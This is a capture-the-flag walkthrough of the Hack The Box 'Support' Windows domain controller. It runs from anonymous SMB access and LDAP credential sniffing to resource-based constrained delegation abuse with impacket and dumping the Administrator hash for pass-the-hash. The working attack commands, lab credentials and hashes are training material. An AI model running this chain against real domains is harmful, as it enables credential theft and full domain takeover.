






# Summary
[Support](https://app.hackthebox.com/machines/Support) starts by gaining anonymous log on to an SMB share and discovering a custom too used by IT staff for gaining info from LDAP. Monitoring network traffic in WireShark while the tool is running reveals credentials for the `ldap` account. With these credentials I find a password left in an info field in LDAP for the `support` account. The `support` account is a member of a group that has `GenericAll` over the domain controller. I use that privilege to dump the `Administrator` hash and gain admin access.
# Nmap
First things first I start off with an Nmap scan. I first use the `-p-` flag to scan all ports, as well as the `-v` flag to print open ports as they're found. After that I run a script `-sC` and version `-sV` scan on the open ports.
```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-06-24 19:39:27Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc         Microsoft Windows RPC
49705/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-06-24T19:40:17
|_  start_date: N/A
```
Quite a few ports open. Judging from DNS, LDAP, SMB, Kerberos, as well as all the RPC ports, this is almost definitely a domain controller. I add `support.htb` to my `/etc/hosts` file
## SMB
The firs thing I check for is anonymous login with smb. `Crackmapexec` shows that I have anon login, but it gives me access denied when trying to view shares. Same thing with `smbmap`. However, `smbclient` does allow me to access the shares. It's always important to try different methods and tools for anonymous log on, as it can be kind of unpredictable what exactly will work in a given situation.
```bash
┌──(kali㉿Kali)──[0:29:23]──[~/htb/Machines/Support]
└─$ smbclient -L \\\\10.129.230.181\\ -N


	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	support-tools   Disk      support staff tools
	SYSVOL          Disk      Logon server share
```
The only non-default share I see is `support-tools`. In that share, I recognize most of the tools there, and I see that they all have the same date. Except for `Userinfo.exe.zip`. This clues me in that maybe this is a cutom tool. I download it with `get Userinfo.exe.zip`
```bash
┌──(kali㉿Kali)──[0:29:35]──[~/htb/Machines/Support]
└─$ smbclient \\\\10.129.230.181\\support-tools -N 

Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jul 20 10:01:06 2022
  ..                                  D        0  Sat May 28 04:18:25 2022
  7-ZipPortable_21.07.paf.exe         A  2880728  Sat May 28 04:19:19 2022
  npp.8.4.1.portable.x64.zip          A  5439245  Sat May 28 04:19:55 2022
  putty.exe                           A  1273576  Sat May 28 04:20:06 2022
  SysinternalsSuite.zip               A 48102161  Sat May 28 04:19:31 2022
  UserInfo.exe.zip                    A   277499  Wed Jul 20 10:01:07 2022
  windirstat1_1_2_setup.exe           A    79171  Sat May 28 04:20:17 2022
  WiresharkPortable64_3.6.5.paf.exe      A 44398000  Sat May 28 04:19:43 2022

		4026367 blocks of size 4096. 959101 blocks available
smb: \> get UserInfo.exe.zip
getting file \UserInfo.exe.zip of size 277499 as UserInfo.exe.zip (378.5 KiloBytes/sec) (average 378.5 KiloBytes/sec)
```
I unzip the file and see a bunch of `.dll`'s, a `.exe` and a `.config` file. I quickly check the `.config` but don't find anything interesting. Running `file` on `UserInfo.exe` tells me that it's a PE32 .net assembly. PE32 files are designed to be run on windows. I may have to jump over to a windows VM to interact with this better, but I decide to poke at a bit on Linux before that.
```bash
┌──(kali㉿Kali)──[0:32:46]──[~/htb/Machines/Support/userinfo]
└─$ ls -la              
Permissions Size User Group Date Modified Name
.rw-r--r--  100k kali kali  19 Oct  2023  CommandLineParser.dll
.rw-r--r--   22k kali kali  19 Oct  2023  Microsoft.Bcl.AsyncInterfaces.dll
.rw-r--r--   47k kali kali  19 Oct  2023  Microsoft.Extensions.DependencyInjection.Abstractions.dll
.rw-r--r--   85k kali kali  19 Oct  2023  Microsoft.Extensions.DependencyInjection.dll
.rw-r--r--   64k kali kali  19 Oct  2023  Microsoft.Extensions.Logging.Abstractions.dll
.rw-r--r--   21k kali kali  19 Oct  2023  System.Buffers.dll
.rw-r--r--  141k kali kali  19 Oct  2023  System.Memory.dll
.rw-r--r--  116k kali kali  19 Oct  2023  System.Numerics.Vectors.dll
.rw-r--r--   18k kali kali  19 Oct  2023  System.Runtime.CompilerServices.Unsafe.dll
.rw-r--r--   26k kali kali  19 Oct  2023  System.Threading.Tasks.Extensions.dll
.rwxr-xr-x   12k kali kali  19 Oct  2023  UserInfo.exe
.rw-r--r--   565 kali kali  19 Oct  2023  UserInfo.exe.config
.rw-r--r--  277k kali kali  19 Oct  2023  UserInfo.exe.zip
                                                                                                                              
┌──(kali㉿Kali)──[0:32:54]──[~/htb/Machines/Support/userinfo]
└─$ cat UserInfo.exe.config 
<?xml version="1.0" encoding="utf-8"?>
<configuration>
    <startup> 
        <supportedRuntime version="v4.0" sku=".NETFramework,Version=v4.8" />
    </startup>
  <runtime>
    <assemblyBinding xmlns="urn:schemas-microsoft-com:asm.v1">
      <dependentAssembly>
        <assemblyIdentity name="System.Runtime.CompilerServices.Unsafe" publicKeyToken="b03f5f7f11d50a3a" culture="neutral" />
        <bindingRedirect oldVersion="0.0.0.0-6.0.0.0" newVersion="6.0.0.0" />
      </dependentAssembly>
    </assemblyBinding>
  </runtime>
</configuration>
                                                                                                                              
┌──(kali㉿Kali)──[0:33:01]──[~/htb/Machines/Support/userinfo]
└─$ file UserInfo.exe
UserInfo.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
```
Thinking about what this program could be, it's called UserInfo.exe, and I know I'm in an active directory environment. This could be a program the support staff use make getting about the domain users easier. It could be running ldap queries or something on the back end. Maybe it will have ldap credentials in there? 

I run the file with `wine UserInfo.exe`. `Wine` is a compatability to run Windows applications on Linux, MacOS, BSD, etc. If you don't have `wine` installed, you can install it [here](https://wiki.winehq.org/Debian). This works and it gives me output! It looks like it's a command line application with 2 commands. `Find` and `user`.
```bash
┌──(kali㉿Kali)──[0:33:05]──[~/htb/Machines/Support/userinfo]
└─$ wine UserInfo.exe
007c:fixme:hid:handle_IRP_MN_QUERY_ID Unhandled type 00000005
007c:fixme:hid:handle_IRP_MN_QUERY_ID Unhandled type 00000005
007c:fixme:hid:handle_IRP_MN_QUERY_ID Unhandled type 00000005
007c:fixme:hid:handle_IRP_MN_QUERY_ID Unhandled type 00000005
0024:fixme:mscoree:parse_supported_runtime sku=L".NETFramework,Version=v4.8" not implemented
0024:fixme:mscoree:parse_supported_runtime sku=L".NETFramework,Version=v4.8" not implemented
0024:fixme:ntdll:NtQuerySystemInformation info_class SYSTEM_PERFORMANCE_INFORMATION

Usage: UserInfo.exe [options] [commands]

Options:
  -v|--verbose        Verbose output

Commands:
  find                Find a user
  user                Get information about a user
```
Before I run it again, I start up Wireshark. This app looks like it will most likely be making some sort of a connection to the domain controller, and I want to see what that looks like.

I run the program and tell it to find user `*`. I get the message that I need to supply either `-first` or `-last` for the `user` portion of the command. I supply it with `find -first *`. I use the wildcard here in the off chance that it will dump all domain users. It doesn't. I now go to check my wireshark capture.
```bash
┌──(kali㉿Kali)──[0:42:20]──[~/htb/Machines/Support/userinfo]
└─$ wine UserInfo.exe find -first *          
0080:fixme:hid:handle_IRP_MN_QUERY_ID Unhandled type 00000005
0080:fixme:hid:handle_IRP_MN_QUERY_ID Unhandled type 00000005
0080:fixme:hid:handle_IRP_MN_QUERY_ID Unhandled type 00000005
0080:fixme:hid:handle_IRP_MN_QUERY_ID Unhandled type 00000005
0024:fixme:mscoree:parse_supported_runtime sku=L".NETFramework,Version=v4.8" not implemented
0024:fixme:mscoree:parse_supported_runtime sku=L".NETFramework,Version=v4.8" not implemented
0024:fixme:ntdll:NtQuerySystemInformation info_class SYSTEM_PERFORMANCE_INFORMATION
0058:fixme:nsi:ipv6_forward_enumerate_all not implemented
0058:fixme:nsi:ipv6_forward_enumerate_all not implemented
0058:fixme:nsi:ipv6_forward_enumerate_all not implemented
0058:fixme:nsi:ipv6_forward_enumerate_all not implemented
[-] Exception: No Such Object

Usage: UserInfo.exe [options] [commands]

Options:
  -v|--verbose        Verbose output

Commands:
  find                Find a user
  user                Get information about a user
```
I see that there's an ldap bind request for the user `ldap`. 



I next right click and hit follow -> tcpstream. I see what looks like credentials for the `ldap` user. Very Cool.



I try to run `crackmapexec` with this password, and it doesn't work. After some fiddling, I get the idea that maybe the `$` at the beginning is just something inserted by the app and not actually part of the password. I try removing it, and it works.
```bash
┌──(kali㉿Kali)──[0:55:59]──[~/htb/Machines/Support/userinfo]
└─$ cme smb $IP -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
SMB         10.129.230.181  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
SMB         10.129.230.181  445    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```
The first thing I do with this new access is get a list of all the domain users.
```bash
ldapsearch -x -H ldap://$IP -D 'SUPPORT\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "CN=Users,DC=SUPPORT,DC=HTB"
```
I then run this with `grep` and `awk` to get a nice clean list.
```bash
──(kali㉿Kali)──[0:58:50]──[~/htb/Machines/Support/userinfo]
└─$ ldapsearch -x -H ldap://$IP -D 'SUPPORT\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "CN=Users,DC=SUPPORT,DC=HTB" | grep sAMAccountName | awk -F': ' '{print $2}'
krbtgt
Domain Computers
Domain Controllers
Schema Admins
Enterprise Admins
Cert Publishers
Domain Admins
Domain Users
Domain Guests
Group Policy Creator Owners
RAS and IAS Servers
Allowed RODC Password Replication Group
Denied RODC Password Replication Group
Read-only Domain Controllers
Enterprise Read-only Domain Controllers
Cloneable Domain Controllers
Protected Users
Key Admins
Enterprise Key Admins
DnsAdmins
DnsUpdateProxy
Shared Support Accounts
ldap
support
smith.rosario
hernandez.stanley
wilson.shelby
anderson.damian
thomas.raphael
levine.leopoldo
raven.clifton
bardot.mary
cromwell.gerard
monroe.david
west.laura
langley.lucy
daughtler.mabel
stoll.rachelle
ford.victoria
Administrator
Guest

```
I then remove all the group names so I'm left with a list of users to try a kerberoast or asrepreoast with.
```bash
┌──(kali㉿Kali)──[1:00:07]──[~/htb/Machines/Support]
└─$ echo 'ldap
support
smith.rosario
hernandez.stanley
wilson.shelby
anderson.damian
thomas.raphael
levine.leopoldo
raven.clifton
bardot.mary
cromwell.gerard
monroe.david
west.laura
langley.lucy
daughtler.mabel
stoll.rachelle
ford.victoria' > users.txt
```

I poke around for awhile. I try an asrep and kerberoast. I run Bloodhound. I try some things from [WADComs](https://wadcoms.github.io/) and [HackTricks.](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology) Nothing. I eventually come back to poking around in `ldapsearch`. I eventually decide to check if there are any info fields in any of the accounts. I run the `ldapsearch` and `grep` for "info", which outputs something that looks suspiciously like a password. 
```bash
┌──(kali㉿Kali)──[1:01:44]──[~/htb/Machines/Support]
└─$ ldapsearch -x -H ldap://$IP -D 'SUPPORT\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "CN=Users,DC=SUPPORT,DC=HTB" | grep -i info
 298939 for more information.
info: Ironside47pleasure40Watchful
```
I run `grep` again with the possible password and the `-B 15` flag, to print 15 lines before the grepped phrase. And I find that it's for the `support` account.
```bash
┌──(kali㉿Kali)──[1:05:21]──[~/htb/Machines/Support]
└─$ ldapsearch -x -H ldap://$IP -D 'SUPPORT\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "CN=Users,DC=SUPPORT,DC=HTB" | grep -i 'Ironside47pleasure40Watchful' -B 15
dn: CN=support,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: support
c: US
l: Chapel Hill
st: NC
postalCode: 27514
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111200.0Z
whenChanged: 20220528111201.0Z
uSNCreated: 12617
info: Ironside47pleasure40Watchful
```
I verify the password with `crackmapexec`, and it works. I remember from poking around in Bloodhound earlier that the `support` account can PSRemote into the box. I plug the creds into `evil-winrm` and get a shell!
```bash
┌──(kali㉿Kali)──[1:10:41]──[~/htb/Machines/Support]
└─$ evil-winrm -i $IP -u support -p 'Ironside47pleasure40Watchful'

Evil-WinRM shell v3.5
  
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
  
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\support\Documents> whoami
support\support
```

I decide to give Bloodhound another look. I run Bloodhound again with the `support` account.
```bash
┌──(kali㉿Kali)──[0:59:38]──[~/htb/Machines/Support/userinfo]
└─$ bloodhound-python -c ALL -u support -p 'Ironside47pleasure40Watchful' -d support.htb -ns 10.129.230.181
```
I mark support as owned. I go to the "Node Info" tab and check Unrolled group memerships. I see that `support` is part of an interesting group called `Share Support Accounts`. 



Selecting that account and clicking "Reachable High Value Targets" shows me that this group has GenericAll over DC01.Support.htb.



GenericAll means that members of the `Shared Support Accounts` group can essentially manipulate the target object, in this case the domain controller, however they want. I right click on the GenericAll edge and hit "help", where I can get info on how to exploit this.



For this attack, I need to add a fake computer to the domain that's under my control. Then I can act as the DC and request Kerberos tickets for this computer, which will give me the ability to impersonate other accounts, like Administrator. I need an authenticated user who can add machine's to the domain. By default, every user can add up to 10. I also need write privileges over a domain computer, that's where the `GernicAll` privilege comes in.

The first thing I need to do is add a "fake" computer to the domain, which I can do with impacket's `addcomputer` module.
```bash
┌──(kali㉿Kali)──[12:34:27]──[~/htb/Machines/Support/www]
└─$ impacket-addcomputer -computer-name 'badcomp$' -computer-pass 'password' -dc-host support.htb -domain-netbios support.htb 'support.htb/support:Ironside47pleasure40Watchful'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Successfully added machine account badcomp$ with password password.

```
I now need to configure the DC so that my fake computer can write to it, which I'll do with `impacket-rbcd`.
```bash
┌──(kali㉿Kali)──[12:35:14]──[~/htb/Machines/Support/www]
└─$ impacket-rbcd -delegate-from 'badcomp$' -delegate-to 'DC$' -action 'write' -dc-ip support.htb 'support.htb/support:Ironside47pleasure40Watchful'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] badcomp$ can now impersonate users on DC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     badcomp$     (S-1-5-21-1677581083-3380853377-188903654-6102)

```
And then I need to request a service ticket for Administrator.
```bash
┌──(kali㉿Kali)──[12:35:53]──[~/htb/Machines/Support/www]
└─$ impacket-getST -spn 'http/dc.support.htb' -impersonate 'Administrator' -dc-ip support.htb 'support.htb/badcomp:password'
Impacket v0.11.0 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```
Now I can use the `Administrator.ccache` file to run `impacket-secretsdump`.
```bash
┌──(kali㉿Kali)──[12:37:22]──[~/htb/Machines/Support/www]
└─$ export KRB5CCNAME=Administrator.ccache; impacket-secretsdump -k -no-pass support.htb/administrator@dc.support.htb -dc-ip dc.support.htb
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xf678b2597ade18d88784ee424ddc0d1a
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bb06cbc02b39abeddd1335bc30b19e26:::
<...SNIP...>
```
With the hash in hand, I can log in with `evil-winrm` as Administrator and grab the flag.
```bash
┌──(kali㉿Kali)──[12:39:38]──[~/htb/Machines/Support]
└─$ evil-winrm -i support.htb -u administrator -H 'bb06cbc02b39abeddd1335bc30b19e26'                                
                                        
Evil-WinRM shell v3.5
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
support\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> cat ..Desktop/root.txt
c4cccff-------------------------
*Evil-WinRM* PS C:\Users\Administrator\Documents> 

```